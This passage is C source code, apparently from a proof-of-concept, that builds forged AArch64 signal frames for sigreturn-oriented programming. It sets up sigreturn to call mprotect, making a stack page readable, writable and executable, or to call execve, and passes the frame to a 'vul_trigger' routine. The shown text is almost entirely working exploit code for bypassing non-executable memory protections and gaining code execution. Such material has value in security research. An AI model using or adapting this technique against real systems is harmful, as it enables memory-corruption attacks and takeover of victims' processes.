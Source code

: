 ```
    register volatile unsigned long lr asm("x30") = sigreturn_addr;
    asm("ret\n\t");
}
 
void stuff_sigframe3(struct sigframe * sf, int scno,
    void * pc, void * lr, void * sp,
    void * arg0, void * arg1, void *arg2)
{
    struct ucontext * uc = &sf->uc;
 
    memset(sf, 0, sizeof(struct sigframe));
     
    uc->uc_mcontext = g_backup.uc.uc_mcontext; /* __reserved copies from g_backup */
 
    uc->uc_mcontext.regs[30] = lr;
    uc->uc_mcontext.pc = pc;
    uc->uc_mcontext.sp = sp;
    uc->uc_mcontext.regs[8] = scno;
    uc->uc_mcontext.regs[0] = arg0;
    uc->uc_mcontext.regs[1] = arg1;
    uc->uc_mcontext.regs[2] = arg2;
}
 
void sigframe_push_mprotect(struct sigframe * frame, void * addr,
    unsigned long size, int prot, void * pc, void * lr, void * sp)
{
    printf("[+] add to sigframe(%016p): mprotect(%p, %x, %x); \n", frame, addr, size, prot);
    stuff_sigframe3(frame, SYS_mprotect, pc, lr, sp, addr, size, prot);
}
 
void sigframe_push_exec(struct sigframe * frame, char * name,
    void * argv, void * envp, void * pc, void * sp, void * lr)
{
    printf("[+] add to sigframe(%016p): execve(%s, %p, %p); \n", frame, name, argv, envp);
    stuff_sigframe3(frame, SYS_execve, pc, lr, sp, name, argv, envp);
}
 
void test_mprotect(void * sigret_stack, void * addr, int size, int prot)
{
    unsigned long ret = __builtin_return_address(0);
    unsigned long cfa = __builtin_frame_address(1);
 
    /* set a sigframe for sigreturn to call mprotect, and set paramters to let 
       mprot return to the write caller (current lr), with right sp (cfa). */
    sigframe_push_mprotect(sigret_stack, addr, size, prot, syscall_ret_addr, ret, cfa);
 
    vul_trigger(sigret_stack);
}
 
void test_mprotect_wrapper(void)
{
 
    /* For qemu-user, this struct can't put in funcion like test_mprotect_wrapper,
      otherwise the vdso insn will lost (should be a bug of qemu) */
    struct sigframe frame __attribute__((aligned(0x10)));
 
    void * sigret_stack = &frame;
 
    /* set a 'ret' insn in no executable stack for test if mprotect is succeed. */
    unsigned long __attribute__((aligned(0x1000))) data = 0xd65f03c0; 
 
    test_mprotect(sigret_stack, &data, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
 
```